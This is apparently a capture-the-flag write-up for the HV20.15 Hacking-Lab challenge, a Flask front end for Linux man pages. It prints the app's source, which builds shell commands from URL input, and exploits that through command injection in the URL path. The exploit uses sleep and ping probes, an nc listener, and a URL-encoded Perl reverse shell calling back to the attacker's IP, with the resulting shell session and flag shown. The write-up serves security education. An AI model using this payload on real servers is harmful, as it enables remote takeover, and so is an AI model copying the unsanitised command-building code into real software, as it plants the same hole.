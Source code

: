 # HV20.15 Man Commands, Server Lost

## Introduction

_Elf4711 has written a cool front end for the linux man pages. Soon after publishing he got pwned. In the meantime he found out the reason and improved his code. So now he is sure it's unpwnable._

## Notes

- _You need to start the web application from the `RESOURCES` section on top_
- _This challenge requires a VPN connection into the Hacking-Lab. Check out the document in the `RESOURCES` section._

## Hints

- _Don't miss the source code link on the man page_

---

The web page looks like this:

![](web.png)

At the bottom, there is a link to the source code:
```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```

The `manpage` method is vulnerable to command injection. Just try to change the URL into `/man/1/;sleep%205;` and
observe the response is delayed.

We were supposed to use a VPN for this challenge. I downloaded [Hacking-Lab LiveCD](https://livecd.hacking-lab.com/)
with pre-configured VPN to save troubles with setting up that manually.

To make sure the VPN works, I tried to inject `ping` command.
- In the VM, start listening for ICMP packets: `tcpdump -i tap0 ip proto \\icmp`
- Inject `ping -c 3 10.13.0.6` command: `/man/1/;ping%20-c%203%2010.13.0.6;`

Bingo, I started receiving ICMP packets in the VM:
```
$ tcpdump -i tap0 ip proto \\icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tap0, link-type EN10MB (Ethernet), capture size 262144 bytes
09:51:06.311400 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 1, length 64
09:51:06.311626 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 1, length 64
09:51:07.310833 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 2, length 64
09:51:07.310902 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 2, length 64
09:51:08.312229 IP 152.96.7.3 > 10.13.0.6: ICMP echo request, id 101, seq 3, length 64
09:51:08.312302 IP 10.13.0.6 > 152.96.7.3: ICMP echo reply, id 101, seq 3, length 64
```

### Getting a reverse shell

The fist step is start listening for the incoming connection (in your VM):
```
$ nc -l -v 10.13.0.6 2797
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on 10.13.0.6:2797
```

Then I tried some payloads from [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
but none of them worked (returning `HTTP 404`).

To debug why they didn't work, I downloaded the source code and ran the app locally with some extra print statements.
This is the reason: https://github.com/pallets/flask/issues/900

Luckily, it was easy to fix the payload not to contain any `/`.

I used this one:
```
perl -e 'use Socket;$i="10.13.0.6";$p=2797;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

This is the final payload:
```
/man/1/;perl%20-e%20%27use%20Socket%3B%24i%3D%2210.13.0.6%22%3B%24p%3D2797%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22sh%20-i%22%29%3B%7D%3B%27;
```

Once executed, the shell went alive:
```
Ncat: Connection from 152.96.7.3.
Ncat: Connection from 152.96.7.3:60392.
sh: 0: can't access tty; job control turned off

$ ls -la
total 8
drwxr-xr-x.   1 root root   17 Dec 15 10:53 .
drwxr-xr-x.   1 root root   17 Dec 15 10:53 ..
-rwxr-xr-x.   1 root root    0 Dec 15 10:53 .dockerenv
drwxr-xr-x.   1 root root  179 Dec 14 18:03 bin
drwxr-xr-x.   2 root root    6 Nov 22 12:37 boot
drwxr-xr-x.   5 root root  340 Dec 15 10:53 dev
drwxr-xr-x.   1 root root   66 Dec 15 10:53 etc
-rw-rw-r--.   1 root root   36 Oct 27 16:04 flag
drwxr-xr-x.   1 root root   20 Dec 14 18:05 home
...

$ cat flag
HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}
```

The flag is `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`
